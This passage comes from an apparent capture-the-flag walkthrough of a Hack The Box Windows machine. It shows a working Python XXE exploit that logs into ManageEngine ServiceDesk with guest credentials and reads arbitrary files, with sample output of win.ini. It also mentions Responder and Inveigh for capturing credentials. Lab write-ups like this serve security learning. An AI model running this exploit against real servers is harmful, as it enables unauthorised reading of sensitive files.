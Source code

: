 ```
"""

def get_file(ip_address, filepath):
    login_url = "http://"+ip_address+":8080/j_security_check"
    api_url = "http://"+ip_address+":8080/api/cmdb/ci"
    login_data={"j_username": "guest", "j_password": "guest", "LDAPEnable": "false", "hidden": "Select a Domain", "hidden": "For Domain", "AdEnable": "false", "DomainCount": "0", "LocalAuth": "No", "LocalAuthWithDomain": "No", "dynamicUserAddition_status": "true", "localAuthEnable": "true", "logonDomainName": "-1", "loginButton": "Login", "checkbox": "checkbox"}
    
    with requests.Session() as s:
        s.post(login_url, data=login_data)
        xxe_data={"OPERATION_NAME": "add", "INPUT_DATA": xxe.format(filepath=filepath)}
        response = s.post(api_url, data=xxe_data)
        try:
                print(response.text[response.text.index("0xdfstart") + len("0xdfstart"):response.text.index("0xdfstop")].replace("\\r\\n","\n"))
        except ValueError:
            print("Error: No data returned")

if len(sys.argv) != 3:
    print(f"Usage: {sys.argv[0]} [ip] [filepath]\nfilepath can be file on target, or smb or http uri")
    sys.exit(1)
get_file(sys.argv[1],sys.argv[2].replace("\\", "/"))

```

I can use it to grab `win.ini` for a test:

```

PS C:\Users\0xdf\hackthebox\helpline-10.10.10.132 > python .\mesep_xxe.py 10.10.10.132 "C:\windows\win.ini"
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1

```

#### Responder

I did try to run `responder` and give it an path to a share on my host. I think you can run `responder` from Windows, but I failed to pull it off. When I posted my [lessons learned on Commando](/2019/04/15/commando-vm-lessons.html#responder), @mcohmi suggested `Inveigh`:

> You should try Inveigh instead of that Windows responder.
>
> — Ohm-I 🚉 PAX West (@mcohmi) [April 16, 2019](https://twitter.com/mcohmi/status/1118003243882139648?ref_src=twsrc%5Etfw)
